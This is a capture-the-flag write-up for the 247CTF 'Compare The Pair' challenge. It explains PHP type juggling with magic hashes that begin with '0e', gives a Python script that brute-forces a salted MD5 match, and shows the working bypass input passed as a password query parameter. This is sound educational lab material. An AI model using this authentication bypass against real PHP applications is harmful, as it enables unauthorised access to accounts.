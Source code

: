 # Start

When opening up the challenge the following web page is shown:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/247CTF/Compare-The-Pair/mainPage.png)

It is some php code of how the web page works on the background. The code is seems to vulnerable with the conditional.

To start with, the password hash variable holds a special string. The string starts with 0e followed by numbers. 

## PHP Weirdness 

The strange thing about PHP is that it interprets some certain types of strings strangely. Not only that PHP has in conditionals, what is called type juggling. Type juggling means that two inputs can interpreted differently. Here is an example:

```
if("1" == 1){
    return true;
}

```
In the example above, since PHP has type juggling this example will return true. The "==" operator is more loose than the "===" operator in PHP, thus the statement returns true.

# Back to the Challenge

In the case of the challenge, the password hash variable that has the 0e is interpreted as 0 in conditionals. So what does this mean in the challenge? This means that we can pass in a specific string using our own input that would make the condition true. When that happens it will return the flag

When we pass in the value it will hash the value using an md5 hash. So we need to find a value that when md5 hashed, wll return a hash that starts with 0e

So let's create a python a script that will find this:

```
import hashlib
import itertools

#Code adapted from: https://github.com/hehacks/Hacking_Notes_obsidian/blob/master/labs/web/247ctf.md

salt = "f789bbc328a3d1a3"

for number in itertools.count():
    # Concatenate salt and password
    salted_password = salt + str(number)

    # Compute MD5 hash
    hashed_password = hashlib.md5(salted_password.encode()).hexdigest()

    if(hashed_password[:2] == '0e' and hashed_password[2:].isnumeric()):
        print("Number: " + str(number) + " Hash: " + hashed_password + " Number length: "  + str(len(str(number))))
        break
    else:
        continue
```

After sitting for a while, we get the number 237701818

When we pass it in with "/?password=237701818" we get the flag:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/247CTF/Compare-The-Pair/flag.png)
